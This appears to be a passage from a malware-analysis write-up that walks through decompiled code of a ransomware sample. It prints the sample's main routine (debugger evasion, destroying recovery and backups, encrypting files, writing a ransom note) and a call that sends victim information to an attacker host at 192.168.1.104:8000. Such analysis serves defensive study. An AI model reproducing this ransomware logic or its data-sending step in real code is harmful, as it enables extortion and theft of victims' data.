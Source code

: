 ```cpp
hFile = CreateFileW(aImportantTxt, 0xC0000000, 0, 0i64, 2u, 0x80u, 0i64);
if ( hFile != (HANDLE)-1i64 )
{
    v0 = strlen(Str);
    WriteFile(hFile, lpBuffer, v0 + 793, &NumberOfBytesWritten, 0i64);
    CloseHandle(hFile);
    FreeHeapMemory((__int64)lpBuffer);
    s_strcpy(aImportantTxt, fileData, 14);
    OpenImporantFile(fileData);
    SendUserInfo(); // send user info to the hacker (192.168.1.104:8000 in this case)
    ExitProcess(0);
}
```

So, the main function now looks like this:

```cpp
int __fastcall main(int argc, const char **argv, const char **envp)
{
  if ( IsMalwareAlreadyRunning() )
    ExitProcess(0);
  ShutdownForEnabledDebugger();
  RunProcessAtLowIntegrity();
  DestroyRecoveryAndBackup();
  DecryptEncryptionTables();
  EncryptFilesData();
  LogUserInfoAndCreateNote();
  return 0;
}
```

Let's move on to the file encryption algorithm, since we skipped it in the previous step, and for good reason: it's the longest, albeit quite interesting part.
To understand what exactly is going on we need to go back to the declaration of the `EncryptFilesData` function:

```cpp
__int64 EncryptFilesData()
{
  int v0; // eax
  int v1; // eax
  BOOL v2; // r8d
  char *aWindowsUsers; // [rsp+20h] [rbp-248h]
  WCHAR *folderPath; // [rsp+28h] [rbp-240h]
  LPSTR WindowsDirectoryA; // [rsp+30h] [rbp-238h]
  char v7[520]; // [rsp+40h] [rbp-228h] BYREF

  if ( !shlwapiModule )
    GetShlwapiModule();
  AllocateFileEncryptionKey();
  targetExtensions = GetTargetFileExtensionsAddress();
  DecryptDotNasoString();
  LoadMutex();
  encryptFileThreads = CreateEncryptFileThreads();
  memset(v7, 0, sizeof(v7));
  WindowsDirectoryA = thunk_GetWindowsDirectoryA();
  decryptString(aUsers, 9u);
  aWindowsUsers = concat(WindowsDirectoryA, aUsers);
  v0 = strlen(aWindowsUsers);
  folderPath = AllocateMemoryFromHeap(2 * v0 + 2);
  v1 = strlen(aWindowsUsers);
  ASCIIToWchar(aWindowsUsers, folderPath, v1);
  FreeHeapMemory(aWindowsUsers);
  sub_7FF749A78960(folderPath);
  encryptFileMutex = 0;
```